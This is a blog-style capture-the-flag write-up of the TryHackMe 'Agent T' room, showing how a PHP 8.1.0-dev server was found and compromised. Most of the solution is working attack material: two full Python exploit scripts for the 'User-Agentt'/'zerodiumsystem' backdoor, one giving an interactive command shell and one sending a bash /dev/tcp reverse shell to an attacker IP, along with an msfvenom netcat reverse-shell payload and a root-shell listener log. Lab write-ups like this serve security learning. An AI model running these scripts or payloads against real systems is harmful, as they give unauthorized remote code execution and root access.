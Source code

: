 ```yaml
---
categories:
- Tryhackme
- CTF
layout: post
image:
    path: hacking.png
media_subpath: /assets/posts/2025-03-28-Agent-T-Got-10-Minutes
tags:
- CTF
- Fundamentals
- Tryhackme
title: THM - Got 10 minutes? - Agent T
---
```


## Introduction

Got an email about this challenge. Message contained following: "Got 10 minutes? Try to find out what is wrong with the server" 

## Solution

![](2025-03-28-18-58.png)

Let's start my ParrotOS to dig deeper of this.

````
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 19:10 EET
Nmap scan report for thm.device
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
````

![](2025-03-28-19-59.png)

Really interesting, that there is actually a dashboard to this platform with authenticated "Admin" user. While clicking each link in the site, eventually I ended up to similar site but different user logged in. 

![](2025-03-28-19-21.png)

At first I thought could there be a session token in the storage but there was not.
Any of the links in the website did not respond into any actions, so I did another Nmap scan with parameter "-A" to entirely scan the host. 
````
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
````
The version is now known, so let´s see if there is any vulnerabilities related to that.
Matter of fact, there was a RCE Backdoor for this specific version of PHP. (https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

It´s about changing the user-agent of the request into "User-agentt" and using payload "zerodiumsysytem("*command*")", this will be executed in the backend server.
Here is a python script from this blog to make the exploitation process persistent, this script belongs to author (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) - Flast101 :

````
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
````

As expected, we ended up getting a shell using this exploit.

![](2025-03-28-19-14.png)

I wanted a better shell and started a netcat listener on Parrot's end but the simple reverse shell commands did not work on this host. MSFVenom could solve this problem.
````
┌─[tigris@parrot]─[~/Desktop]
└──╼ $msfvenom -p cmd/unix/reverse_netcat LHOST=10.x.x.x LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 99 bytes
mkfifo /tmp/tnbsawx; nc 10.x.x.x 4444 0</tmp/tnbsawx | /bin/sh >/tmp/tnbsawx 2>&1; rm /tmp/tnbsawx
````
This did not work either. Then i ended up finding this script, which contained a bash-command for the shell. I tried manually exploit the same command but it did not work and it might be that the earlier backdoor-script will format the request incorrectly. This was also made by flash101 - (https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) - (https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

````
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
````

We are in.

````
┌─[✗]─[tigris@parrot]─[~/Desktop]
└──╼ $netcat -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.x.x.x] 35484
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3f8655e43931:/var/www/html#
root@3f8655e43931:/# ls

ls
bin
boot
dev
etc
flag.txt
home

root@3f8655e43931:/# cat flag.txt
flag{412xxxxxxxxxxxxxxxxxxxxxxxxx}
````


